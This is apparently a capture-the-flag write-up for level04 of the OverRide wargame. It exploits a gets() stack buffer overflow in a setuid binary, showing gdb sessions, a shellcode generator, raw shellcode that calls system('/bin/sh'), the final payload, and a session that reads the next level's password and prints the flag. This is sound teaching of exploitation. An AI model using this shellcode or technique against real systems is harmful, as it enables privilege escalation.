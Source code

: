 # LEVEL04 - STACK BUFFER OVERFLOW 2 (SYSCALL BAN)

We have a binary named level04 at /home/users/level04/

It is owned by `level05` and has a `setuid bit`

The program first defines some variables then calls `fork`

```c
int main(void)
{
	int childStatus;
	char shellcode[128];
	int syscallNumber;
	__pid_t childPid;
	
	childPid = fork();
```

Then we can divide the code in two sections: `parent` and `child`

Here is the `parent` part: 

```c
if (childPid != 0)
	{
		// parent
		do
		{
			wait(&childStatus);
			int exitStatus = childStatus / 256;
			int signalNumber = childStatus % 128;
			if ((exitStatus != 0) || (signalNumber > 0 && signalNumber != 127))
			{
				puts("child is exiting...");
				return 0;
			}
			syscallNumber = ptrace(PTRACE_PEEKUSER, childPid, EIP_OFFSET, 0);
		} while (syscallNumber != EXECVE_SYSCALL);
		puts("no exec() for you");
		kill(childPid, 9);
	}
```

It waits for any change in the child's status, checks if the child has exited then gets the last syscall number stored in the EIP register of the child process.

If the syscall is `execve` it kills the child and prints "no exec() for you" or else it continues to loop

Here is the `child` part:

```c
else
	{
		// child
		prctl(1, 1);
		ptrace(PTRACE_TRACEME, 0, 0, 0);
		puts("Give me some shellcode, k");
		gets(shellcode);
	}
```

The child first makes itself tracable then ask the user for some shellcode

We can use a buffer overflow vulnerability using `gets`

```c
char shellcode[128];
...
gets(shellcode);
```

The strategy here is to inject a shellcode but we can not call the execve syscall in the child process.

We will try to use the `system` function to bypass this protection because it creates a subprocess that will then call `execve` but this protection only checks if the child is calling `execve`

First we have to find out if the `system` function is already imported inside the code

```
level04@OverRide:~$ gdb ./level04
(gdb) b main
Breakpoint 1 at 0x80486cd
(gdb) r
Starting program: /home/users/level04/level04

Breakpoint 1, 0x080486cd in main ()
(gdb) info functions system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr
```

The `system` function is already imported inside the code and is located at address `0xf7e6aed0`

Now let's try to exploit the overflow, first we have to set `follow-fork-mode` to `child` inside `gdb` to make it follow the child process then we set a breakpoint in the `child` just after `gets`

```
(gdb) set follow-fork-mode child

(gdb) disas main
...
0x0804875e <+150>:   call   0x80484b0 <gets@plt>
0x08048763 <+155>:   jmp    0x804881a <main+338>
...

(gdb) b*0x08048763
Breakpoint 1 at 0x8048763

(gdb) r < <(python -c "print(156*'a'+'ABCD')")
Starting program: /home/users/level04/level04 < <(python -c "print(200*'a')")
[New process 1581]
Give me some shellcode, k
[Switching to process 1581]
Breakpoint 1, 0x08048763 in main ()
child is exiting...

(gdb) info frame
Stack level 0, frame at 0xffffd720:
 eip = 0x8048763 in main; saved eip 0x44434241

(gdb) info reg
eax            0xffffd680

(gdb) x/s 0xffffd680
0xffffd680:      'a' <repeats 156 times>, "ABCD"
```

We have succesfully found the buffer's address (`0xffffd680`) and it's offset until the return address of the `child` process (`156`)

Now let's craft the shellcode

```python
#system("/bin/sh")
bufferAddress = '0xffffd680'
systemAddress = '0xf7e6aed0'
hexCode = pwn.asm('''
	xor eax, eax
	push eax
	push 0x68732f2f
	push 0x6e69622f
	mov ebx, esp
	push ebx

	mov eax, ''' + systemAddress + '''
	call eax
    ''').hex()

addressCode = addBackslashX(invertEndian(bufferAddress))
sys.stdout.write('\nAddress:\n' + addressCode + '\n')
sys.stdout.write('Len: ' + str(int(len(addressCode) / 4)) + '\n')

shellCode = addBackslashX(hexCode)
sys.stdout.write('\nShellcode:\n' + shellCode + '\n')
sys.stdout.write('Len: ' + str(int(len(shellCode) / 4)) + '\n')
```

We get this code:

```
Address:
\x80\xd6\xff\xff
Len: 4

Shellcode:
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x53\xb8\xd0\xae\xe6\xf7\xff\xd0
Len: 23
```

We will have to add `133` filling characters (156 - 23)

Here is what the payload looks like

```
python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x53\xb8\xd0\xae\xe6\xf7\xff\xd0' + 133 * 'a' + '\x80\xd6\xff\xff')"
```

Let's try it

```
(gdb) b*0x08048763
Breakpoint 1 at 0x8048763

(gdb) set follow-fork-mode child*
Undefined item: "child*".

(gdb) set follow-fork-mode child

(gdb) r < <(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x53\xb8\xd0\xae\xe6\xf7\xff\xd0' + 133 * 'a' + '\x80\xd6\xff\xff')")
Starting program: /home/users/level04/level04 < <(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x53\xb8\xd0\xae\xe6\xf7\xff\xd0' + 133 * 'a' + '\x80\xd6\xff\xff')")
[New process 1690]
child is exiting...
Give me some shellcode, k
[Switching to process 1690]
Breakpoint 1, 0x08048763 in main ()

(gdb) info frame
Stack level 0, frame at 0xffffd720:
 eip = 0x8048763 in main; saved eip 0xffffd680
```

The return address was successfully overridden by the buffer's address

Let's try to display our shellcode inside the buffer

```
(gdb) x/12i 0xffffd680
   0xffffd680:  xor    %eax,%eax
   0xffffd682:  push   %eax
   0xffffd683:  push   $0x68732f2f
   0xffffd688:  push   $0x6e69622f
   0xffffd68d:  mov    %esp,%ebx
   0xffffd68f:  push   %ebx
   0xffffd690:  mov    $0xf7e6aed0,%eax
   0xffffd695:  call   *%eax
   0xffffd697:  popa
   0xffffd698:  popa
   0xffffd699:  popa
   0xffffd69a:  popa
```

The shellcode is present and looks good, let's continue

```
(gdb) c
Continuing.
[New process 1692]
process 1692 is executing new program: /bin/dash
```

The shell was successfully executed, now let's do it in "real mode"

We need to increase a bit the address of the buffer to get is right, here we will add 32 bytes making the address `0xffffd6a0`

```
level04@OverRide:~$ (python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x53\xb8\xd0\xae\xe6\xf7\xff\xd0' + 133 * 'a' + '\xa0\xd6\xff\x
ff')"; cat) | ./level04
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```

The flag is

```
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```